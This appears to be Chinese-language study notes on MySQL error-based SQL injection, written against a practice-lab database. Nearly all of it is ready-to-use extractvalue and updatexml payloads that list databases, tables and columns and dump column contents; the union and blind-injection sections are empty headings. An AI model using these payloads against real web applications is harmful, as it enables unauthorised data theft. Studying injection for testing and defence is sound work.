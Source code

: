 ## SQL注入之MySQL

### 一、联合注入


### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>

**-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）**
```java
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		
```
**-- （2）查询数据库有多少个表**
```java
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	
```
**-- （3）查询数据库的表名，limit后第一个数字表示第几个表**
```java
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	
```
**-- （4）查询列名，limit后数字表示第几列**
```java
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	
```
**-- （5）查询表里面某列的内容**
```java
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注


### 四、时间盲注



